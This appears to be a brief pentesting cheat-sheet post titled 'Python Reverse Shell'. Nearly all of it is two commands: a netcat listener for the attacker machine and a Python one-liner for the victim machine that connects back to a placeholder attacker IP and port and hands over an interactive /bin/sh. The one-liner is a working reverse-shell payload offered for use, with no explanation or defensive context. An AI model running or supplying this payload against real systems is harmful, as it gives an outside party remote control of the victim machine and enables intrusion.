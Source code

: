 ```yaml
---
layout: post
title: "Python Reverse Shell"
tags: [python,reverse-shell,pentesting]
---
```


### Attacker Machine
```bash
nc -nvlp <$ATTACKER_PORT>
```

### Victim Machine
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<$ATTACKER_IP>",<$ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

---
